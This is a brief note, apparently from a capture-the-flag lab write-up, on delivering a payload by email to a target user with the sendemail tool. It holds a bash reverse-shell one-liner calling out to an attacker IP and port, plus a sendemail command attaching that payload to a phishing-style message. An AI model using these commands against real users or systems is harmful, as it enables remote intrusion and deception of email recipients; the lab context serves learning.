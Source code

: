# smtp
`-t`  is the target user email address, `-f` is your address, `-s` is mail server, `-u` is subject, `-m` is the message and -a is the local file/payload to attach

```text-plain
bash -c "bash -i >& /dev/tcp/10.17.17.11/4444 0>&1"
```

```text-plain
sendemail -t hakanbey@uranium.thm -f hacker@Iminyourcloud.com -s uranium.thm -u "Some other subject" -m "some ther message" -a application -o tls=no
```